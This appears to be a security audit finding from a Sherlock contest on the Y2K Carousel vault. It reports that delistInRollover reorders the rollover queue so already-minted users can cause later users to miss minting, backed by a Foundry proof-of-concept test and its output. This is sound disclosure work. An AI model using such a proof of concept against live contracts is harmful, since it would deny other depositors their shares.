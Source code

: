 jprod15

medium

# users can make other user  not  mint their position in mintRollovers

## Summary
in some case users can bother other user making not can mint through mintRollovers
## Vulnerability Detail
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L294

due that in the function delistInRollover
  overwrite the item to be removed with the last item in the queue
user that already mint in mintRollovers
can call delistInRollover and make the last in queue no can mint 

this escenary is possible if call function mintRollovers(uint256 _epochId, uint256 _operations) with _operation < rolloverQueue.length
add this test in CarouselTest.t.sol 

         function test_RolloverMultiple_bother() public {
                // test multiple rollovers
                // roll over users from testDepositIntoQueueMultiple test
                testDepositIntoQueueMultiple();

                // create new epoch
                uint40 _epochBegin = uint40(block.timestamp + 3 days);
                uint40 _epochEnd = uint40(block.timestamp + 4 days);
                uint256 _epochId = 3;
                uint256 _emissions = 100 ether;

                deal(emissionsToken, address(vault), 100 ether, true);
                vault.setEpoch(_epochBegin, _epochEnd, _epochId);
                vault.setEmissions( _epochId, _emissions);

                uint256 prevEpochUserBalance = 10 ether - relayerFee;

                uint256 prevEpoch = 2;
                // enlist in rollover for next epoch
                helperRolloverFromEpoch(prevEpoch, USER,  prevEpochUserBalance);
                helperRolloverFromEpoch(prevEpoch, USER2, prevEpochUserBalance);
                helperRolloverFromEpoch(prevEpoch, USER3, prevEpochUserBalance);
                helperRolloverFromEpoch(prevEpoch, USER4, prevEpochUserBalance);
                helperRolloverFromEpoch(prevEpoch, USER5, prevEpochUserBalance);
                helperRolloverFromEpoch(prevEpoch, USER6, prevEpochUserBalance);

                // check balance of relayer
                uint256 balanceBefore = IERC20(UNDERLYING).balanceOf(address(this));

                // expect revert as prev epoch is not resolved
                vm.expectRevert(VaultV2.EpochNotResolved.selector);
                vault.mintRollovers(_epochId, 6);


                // resolve prev epoch
                vm.warp(block.timestamp + 2 days + 1 hours); // warp to one hour after prev epoch end
                vm.startPrank(controller);
                vault.resolveEpoch(prevEpoch);
                vm.stopPrank();

                    stdstore
                    .target(address(vault))
                    .sig("claimTVL(uint256)")
                    .with_key(prevEpoch)
                    .checked_write(1000 ether);

                console.log("rollover queue length", vault.getRolloverQueueLenght());


                // mint rollovers
                // this should not mint any shares as prev epoch is not in profit
                vault.mintRollovers(_epochId, 2);//@audit-info first call with operation = 2 mint only 2 firts users in queue 

                vm.startPrank(USER);
                vault.delistInRollover(USER);//@audit-info then user call .delistInRollover  
                vm.stopPrank();

                vm.startPrank(USER2);
                vault.delistInRollover(USER2);//@audit-info then user2 call .delistInRollover 
                vm.stopPrank();

                console.log("*************second *************");
                vault.mintRollovers(_epochId, 8);//@audit-info then mint all rest 


                console.log("*************balances *************");
                
            
                console.log("vault balance user:%d",vault.balanceOf(USER, _epochId));
                console.log("vault balance user:%d",vault.balanceOfEmissions(USER,_epochId));
                console.log("vault balance user2:%d",vault.balanceOf(USER2, _epochId));
                console.log("vault balance user2:%d",vault.balanceOfEmissions(USER2,_epochId ));
                console.log("vault balance user3:%d",vault.balanceOf(USER3, _epochId));
                console.log("vault balance user3:%d",vault.balanceOfEmissions(USER3,_epochId ));
                console.log("vault balance user4:%d",vault.balanceOf(USER4, _epochId));
                console.log("vault balance user4:%d",vault.balanceOfEmissions(USER4,_epochId));
                console.log("vault balance user5:%d",vault.balanceOf(USER5, _epochId));
                console.log("vault balance user5:%d",vault.balanceOfEmissions(USER5, _epochId));
                console.log("vault balance user6:%d",vault.balanceOf(USER6, _epochId));
                console.log("vault balance user6:%d",vault.balanceOfEmissions(USER6,_epochId ));
            
                
            }
run forge test -m test_RolloverMultiple_bother  -vv

the resul 

      Running 1 test for test/V2/Carousel/CarouselTest.t.sol:CarouselTest
     [PASS] test_RolloverMultiple_bother() (gas: 2403838)
     Logs:
        rollover queue length 6
        length:6
        0xcca23c05a9cf7e78830f3fd55b1e8cfccbc5e50f
        INDEX:1
        0x0000000000000000000000000000000000012312
        INDEX:2
        *************second *************
        length:4
        0x0000000000000000000000000000000000000123
        INDEX:3
        0x0000000000000000000000000000000000000345
        INDEX:4
        *************balances *************
        vault balance user:9999999996000000000
        vault balance user:9999999996000000000
        vault balance user2:9999999996000000000
        vault balance user2:9999999996000000000
        vault balance user3:9999999996000000000
        vault balance user3:9999999996000000000
        vault balance user4:9999999996000000000
        vault balance user4:9999999996000000000
        vault balance user5:0
        vault balance user5:0
        vault balance user6:0
        vault balance user6:0

     Test result: ok. 1 passed; 0 failed; finished in 36.83ms

note: in function  mintRollovers add the following 
 console.log("length:%d",length);  in line 395
console.logAddress(queue[index].receiver); in line 415
 console.log("INDEX:%d",index); in line 460
## Impact
users can loss oportunity of mint  shares
## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L294
## Tool used

Manual Review

## Recommendation

could add a either variable or modifier that don't allow user delistIngRollover after there is mint
